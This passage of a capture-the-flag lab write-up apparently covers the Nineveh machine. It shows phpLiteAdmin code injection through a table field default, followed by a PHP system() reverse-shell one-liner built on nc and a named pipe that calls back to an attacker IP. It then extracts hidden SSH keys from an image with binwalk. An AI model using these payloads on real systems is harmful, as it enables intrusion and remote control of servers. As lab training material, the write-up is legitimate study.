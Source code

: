```
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

Following the instructions, I logged in with password123 and created a new database called "rshell.php".

![image](https://user-images.githubusercontent.com/10210108/83317786-539fc980-a1fd-11ea-8d7a-1cc64b3521f5.png)

I created a new table - name: data, number of fields: 1, and clicked go.

![image](https://user-images.githubusercontent.com/10210108/83317812-a1b4cd00-a1fd-11ea-8c16-39f11e19bad9.png)

For "Field:" I used php system to execute a command that creates a reverse shell. I set the "Type:" to "TEXT" and entered "data" (can be anything), in the default value field and clicked "Create".

```
<?php system("rm -f /tmp/backpipe;mknod /tmp/backpipe p;/bin/sh 0</tmp/backpipe | nc 10.10.14.18 4200 1>/tmp/backpipe"); ?>
```

![image](https://user-images.githubusercontent.com/10210108/83317832-cf9a1180-a1fd-11ea-93d3-b32351d4684f.png)

It completed sucessfuly but I couldn't execute the php file because I didn't have access to the path. I made a note to come back to this later.

![image](https://user-images.githubusercontent.com/10210108/83317884-4931ff80-a1fe-11ea-9550-f6ef2ad105bf.png)

Browsing to https://10.10.10.43/secure_notes shows a page with only an image so I downloaded it to my box to take a closer look.

```
wget https://10.10.10.43/secure_notes/nineveh.png --no-check-certificate
```

I ran binwalk on nineveh.png and it detected a tar archive

![image](https://user-images.githubusercontent.com/10210108/83360105-b6ec4180-a34c-11ea-8352-3e4c2c01a940.png)

binwalk with the -e parameter was used to extract the tar file

![image](https://user-images.githubusercontent.com/10210108/83318060-5e5b5e00-a1ff-11ea-8aa2-ddafb7715e1f.png)

Binwalk automatically extracted the tar file to the folder secret. In this folder I found a private and public key.

